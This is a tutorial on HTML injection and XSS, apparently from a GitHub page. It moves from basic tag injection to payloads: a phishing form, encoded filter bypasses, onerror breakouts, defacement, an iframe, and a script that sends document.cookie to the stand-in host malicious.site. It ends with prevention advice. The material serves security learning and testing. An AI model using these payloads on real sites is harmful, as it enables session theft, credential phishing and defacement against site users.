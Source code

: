 ### **HTML Injection: From Basic to Advanced**

HTML Injection is a type of vulnerability that occurs when an attacker can inject arbitrary HTML content into a webpage. This can lead to several types of attacks, such as altering the page’s structure, content injection, or even XSS. Below is a guide to HTML Injection, starting with basic concepts and progressing to advanced payloads.

---

#### **Basics of HTML**

```html
<h1>TEST</h1>
```
This is basic HTML, where the `<h1>` tag is used to create a header.

### **1. Understanding HTML Injection**
HTML Injection happens when user inputs are not sanitized correctly, allowing malicious HTML content to be injected into the page. Typically, this is due to improper handling of user input in web forms, query parameters, or other user-supplied data.

#### **Types of HTML Injection**
- **Reflected HTML Injection**: Content is reflected on the page immediately.
- **Stored HTML Injection**: Malicious content is stored in a database and rendered on multiple pages.

### **2. Basic HTML Injection**

If a webpage accepts user input and embeds it into HTML without sanitization, you can inject HTML. For example:

```html
<h1>Injected Title</h1>
```

To test for HTML injection, try inputting:

```html
<h1>Hello World</h1>
```

If this input is reflected on the page without escaping, then the page is vulnerable to HTML Injection.

### **3. Intermediate Payloads**
With basic knowledge, you can move on to more complex payloads that manipulate the structure of the page. For example, injecting forms or breaking the structure:

```html
<div style="display:none;">Hidden content</div>
```

Or injecting an entire form:

```html
<form action="http://malicious.site" method="POST">
    <input type="text" name="username" value="hacker">
    <input type="submit" value="Submit">
</form>
```

This can be used for phishing attacks or credential harvesting.

### **4. Bypassing Filters**
Sometimes, web applications filter out certain HTML tags. To bypass simple filters, you can try encoding your payloads:

- **Hexadecimal Encoding**:  
```html
&#60;h1&#62;Hacked!&#60;/h1&#62;
```
- **URL Encoding**:  
```html
%3Ch1%3EHacked%21%3C%2Fh1%3E
```

### **5. Advanced HTML Injection Payloads**

#### **5.1 XSS with HTML Injection**

A typical next step in HTML Injection is to combine it with JavaScript to create XSS (Cross-Site Scripting) attacks. This can be done by injecting `<script>` tags:

```html
<script>alert('XSS')</script>
```

If the page allows JavaScript execution, this alert will pop up.

#### **5.2 Cookie Stealing**
Using HTML Injection, you can inject scripts that steal session cookies:

```html
<script>
  var img = new Image();
  img.src = "http://malicious.site/cookie?c=" + document.cookie;
</script>
```

This sends the victim’s cookies to a remote server.

#### **5.3 Defacing the Webpage**
You can also inject payloads that visually deface a page:

```html
<body style="background-color: black; color: red;">
  <h1>You Have Been Hacked!</h1>
</body>
```

#### **5.4 Using Iframes**
Injecting an iframe can allow you to embed malicious content into the page:

```html
<iframe src="http://malicious.site"></iframe>
```

This iframe could load a malicious site, misleading users into providing credentials.

### **6. Advanced Bypasses and Techniques**

#### **6.1 HTML Entities**
HTML entities like `&lt;`, `&gt;` (for `<`, `>`) can sometimes bypass filters:

```html
&lt;script&gt;alert(1)&lt;/script&gt;
```

#### **6.2 Breaking Out of Attributes**
You can also break out of HTML attributes to inject content:

```html
<img src="x" onerror="alert('XSS')">
```

Or try closing tags:

```html
"><img src=x onerror=alert(1)>
```

### **7. Preventing HTML Injection**
To prevent HTML Injection:
- **Escape HTML**: Always escape user inputs when inserting them into HTML.
- **Use a Template Engine**: Most template engines auto-escape HTML.
- **Validate Inputs**: Ensure inputs conform to expected formats.
- **Use Content Security Policy (CSP)**: CSP can help prevent malicious scripts from running.
